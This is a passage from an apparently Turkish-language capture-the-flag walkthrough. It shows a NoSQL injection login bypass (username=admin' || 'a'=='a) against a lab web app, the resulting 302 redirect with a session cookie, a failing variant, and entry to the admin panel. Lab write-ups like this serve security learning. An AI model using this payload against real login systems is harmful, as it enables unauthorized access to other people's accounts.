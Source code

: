 ```
username=admin' || 'a'=='a&password=admin
```


![Pasted image 20250111154916.png](/img/user/resimler/Pasted%20image%2020250111154916.png)

Sonuçlar geldi:

```
HTTP/1.1 302 Found

Server: nginx/1.23.1

Date: Sat, 11 Jan 2025 12:49:06 GMT

Content-Type: text/html; charset=utf-8

Content-Length: 56

Connection: keep-alive

Location: /admin

Vary: Accept

Set-Cookie: connect.sid=s%3AycDpGIQ2e2Ts02LuxbrOzIjTGmP_Z_ul.c6lA8gz9SNFY7R%2B77iHM6IhrNP1NbS3zRgCVRikoZCk; Path=/; HttpOnly



<p>Found. Redirecting to <a href="/admin">/admin</a></p>
```


Bu, bir cookie set edilmesi ve /admin sayfasına yönlendirme! Başarı bu.

İlginç bir şekilde, bu sadece kullanıcı adı varsa çalışıyor. Eğer payload'ı şu şekilde değiştirirsem:

```
username=0xdf' || 'a'=='a&password=admin
```

“Wrong Credentials” ile yeniden yönlendiriyor.

Beyond Root'ta bu ve başka bir NoSQL güvenlik açığını inceleyeceğim.

### Access to Mattermost

#### Enumeration


Repeater'dan cookie alarak ya da NoSQL payload ile Firefox'tan giriş yaparak admin paneline girebiliyorum:

![Pasted image 20250111155246.png](/img/user/resimler/Pasted%20image%2020250111155246.png)
